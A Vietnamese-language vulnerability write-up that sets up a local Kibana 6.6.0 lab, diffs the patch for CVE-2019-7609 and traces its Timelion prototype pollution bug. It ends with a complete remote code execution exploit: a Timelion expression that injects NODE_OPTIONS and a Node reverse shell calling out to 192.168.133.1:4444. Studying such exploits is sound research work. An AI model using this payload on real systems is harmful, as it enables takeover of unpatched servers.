 ```yaml
---
tag: CVE, debug
---
```

# References
[](https://nvd.nist.gov/vuln/detail/cve-2019-7609)[https://nvd.nist.gov/vuln/detail/cve-2019-7609](https://nvd.nist.gov/vuln/detail/cve-2019-7609)
[](https://github.com/mpgn/CVE-2019-7609)[https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)

# Enumerate
## Cài đặt phiên bản chứa lỗi và search Description
- ./start.sh
``` d
version: "3.0"
services:
  elasticsearch:
    container_name: es-container
    image: docker.elastic.co/elasticsearch/elasticsearch:6.6.0
    environment:
      - xpack.security.enabled=false
      - "discovery.type=single-node"
    networks:
      - es-net
    ports:
      - 9200:9200
  kibana:
    container_name: kb-container
    image: docker.elastic.co/kibana/kibana:6.6.0
    environment:
      - ELASTICSEARCH_HOSTS=http://es-container:9200
    networks:
      - es-net
    depends_on:
      - elasticsearch
    ports:
      - 5601:5601
networks:
  es-net:
    driver: bridge
```
- Description
	- Các phiên bản Kibana trước 5.6.15 và 6.6.1 chứa lỗ hổng thực thi mã tùy ý trong trình hiển thị Timelion. Kẻ tấn công có quyền truy cập vào ứng dụng Timelion có thể gửi yêu cầu cố gắng thực thi mã javascript. Điều này có thể dẫn đến việc kẻ tấn công thực thi các lệnh tùy ý với quyền của quy trình Kibana trên hệ thống máy chủ.
![](./image/Pasted_image_20230306110855.png)
- Theo mô tả ở trên chúng ta sẽ tập trung vào chức năng Timelion
	- Tìm hiểu một chút về các chức năng của Timelion theo link: [](https://www.elastic.co/guide/en/kibana/current/timelion.html)[https://www.elastic.co/guide/en/kibana/current/timelion.html](https://www.elastic.co/guide/en/kibana/current/timelion.html)
	- Ở đây ta thấy chỉ có một entrypoint là khung để gọi các hàm biểu thức (Timelion expression function). Bắt đầu bằng .es hay .elasticsearch sau đó là các hàm để tương tác với dữ liệu được truy vấn từ elastic search.
- Một điều nữa là khi đọc mô tả mình tìm thấy cụm từ prototype pollution. Với lại cũng vừa được anh minh cho làm một dạng này. Vì vậy mình xoáy sâu vào các payload liên quan đến prototype polution..

## Diffcode và tìm trigger
-   Bước tiếp theo ta sẽ diff code để xem có gì đặc sắc ko. Chỉ tập trung vào các source trong path `/src/legacy/core_plugins/timelion/.`
-   Dùng winmerge ta thấy trong đó có một file đã được fix với nội dung như sau:

``` d
diff --git a/src/legacy/core_plugins/timelion/server/series_functions/props.js b/src/legacy/core_plugins/timelion/server/series_functions/props.js
index 81b74901d4db..80e9cafd6712 100644
--- a/src/legacy/core_plugins/timelion/server/series_functions/props.js
+++ b/src/legacy/core_plugins/timelion/server/series_functions/props.js
@@ -32,7 +32,7 @@ function unflatten(data) {
     let prop = '';
     let m;
     while (m = regex.exec(p)) {
-      cur = cur[prop] || (cur[prop] = (m[2] ? [] : {}));
+      cur = (cur.hasOwnProperty(prop) && cur[prop]) || (cur[prop] = (m[2] ? [] : {}));
       prop = m[2] || m[1];
     }
     cur[prop] = data[p];
```

- Vậy là có vẻ liên quan đến hàm props. Nhưng mình vẫn chưa hiểu code lắm. Nên sẽ thử debug
## Setup debug và debug
-   Thú thật vì là lần đầu nên mình mất khoảng 3,4 ngày để tìm cách set up từ port debug, inspect trên chrome đến việc gọi để set breakpoint cũng mất cả buổi chiều. Tuy nhiên mình đã làm được :)) và mình sẽ viết một bài riêng về phần debug js với chrome debugger.
    [Debug JS với Chrome Debugger](https://www.notion.so/Debug-JS-v-i-Chrome-Debugger-39432cb4c8554985b6e2bfdb3603163b)
-   Sau khi đã setup xong chúng ta sẽ đặt breakpoint vào trước đoạn code diff đã tìm được ở trên:
	![](Pasted%20image%2020230306140832.png)
-   Ta sẽ thử 1 kịch bản thêm một props vào theo đúng chức năng của timelion
	- Set một prop label có giá trị là minh
	    ![[Pasted image 20230306140439.png]]
	- Lúc này các giá trị cụ thể của các biến:
		![](Pasted%20image%2020230306140736.png)
	- Vào vòng while giá trị m sẽ được gán cho p. regex.exec(p) dùng để check giá trị p truyền vào có match với biến regex được được định nghĩa từ trước không.
	- Thêm 1 step nữa ta thấy m được khởi tạo thành một mảng.
			![](Pasted%20image%2020230306140940.png)
	- Phần này liên quan nhiều đến regex. Mình check [regex101.com](http://regex101.com) thì thấy regex được chia thành hai capturing group là **`\\.?([^**.**\\[\\]` và `\\[(\\d+)\\]` và vì ‘label’** đều match với 2 group nên có kết quả 2 phần tử đầu trong mảng là label.
	-   Đoạn trong vòng while có thể hiểu là check phần tử nào trong mảng trống và gán giá trị cho thuộc tính prop.
	-   Sau khi thoát while, phần tử cur[prop] được gán giá trị của data[p] với val = ‘minh’

	⇒ Ta thấy mình hoàn toàn có thể điều khiển được prop của đối tượng cũng như giá trị của prop đó. Cùng với target ban đầu là protocol polution ta nghĩ ngay đến việc chèn **proto**

-   Thử với payload `.es(*).props(label.**proto**.y=minh)` sau khi debug lại ta thấy prop y đã nằm trong prototype
	![](Pasted%20image%2020230306141026.png)
	
⇒ Như vậy là mình đã check được chỗ trigger prototype pollution rồi. Bước tiếp theo là tìm cách RCE

# Find RCE
- Đoạn này khá khó và ban đầu mình ko có idea gì. Mình lên GTFObin để xem có idea gì ko thì thấy hầu hết đều có liên quan đến việc phải require(child_process)
	![](Pasted%20image%2020230306141328.png)
- Nên mình thử debug và nhận thấy mỗi khi click vào plugin nào kibana đều spawn new process:
- Mình bắt tay vào debug child_process thì thấy object options được khởi tạo và trong đó có props `y:’minh’` mà ban đầu mình có gán. Hơn thế prop .env nó còn được gán cho biến env.
	![](Pasted%20image%2020230306141550.png)

- Vậy điều gì xảy ra nếu mình pollution một prop là __proto__.env.y : ‘minh’ ⇒ ta sẽ biến y trở thành một biến môi trường. Giờ tìm cách thực thi biến môi trường với node
## Thực thi payload trong môi trường node
- Ta có thể dùng NODE_OPTION cùng --require để thực hiện điều này:
	![](Pasted%20image%2020230306141630.png)
- Check trên local:
	![](Pasted%20image%2020230306141654.png)
- Oke vấn đề đặt ra nữa là làm sao để upload file js. Đến đây ta lại có giải pháp:
	- Lưu biến trong /proc/self/environ
		![](Pasted%20image%2020230306141721.png)
	- Ta thấy rằng khi gán giá trị cho một biến đồng thời đọc các biến tiến trình ta thấy ngay lúc này biến payload đã được lưu.
	- Vậy ta có thể dùng NODE_OPTIONS để đọc file /proc/self/environ + payload được lưu vào /proc/self/environ ⇒ có thể thực thi được payload
		``` d
		NODE_OPTIONS='--require /proc/self/environ' payload='console.log("minh")//' node
		```
		
## Payload reverse shell
-   Chung quy lại payload của chúng ta cần hội tụ những yếu tố sau:
    -   Sử dụng NODE_OPTIONS --require để thực thi file /proc/self/environ
        `.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`
    -   Payload reverse shell trong nodejs. Cái này mình kiếm trên GTFObins
        `require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()//`
    -   Nhét payload vào biến bất kỳ để lưu vào /proc/self/environ
        `.props(label.__proto__.env.payload='require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()// ')`
    ⇒ `.es(*).props(label.__proto__.env.payload='require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()// ').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`
    
    -   Kết quả:
        - Thực hiện truyền payload vào input trong Timelion
			![](Pasted%20image%2020230306142012.png)
	- Click vào canvas để hệ thống sinh tiến trình con
			![](Pasted%20image%2020230306142056.png)
	- Reverse shell
			![](Pasted%20image%2020230306142119.png)
			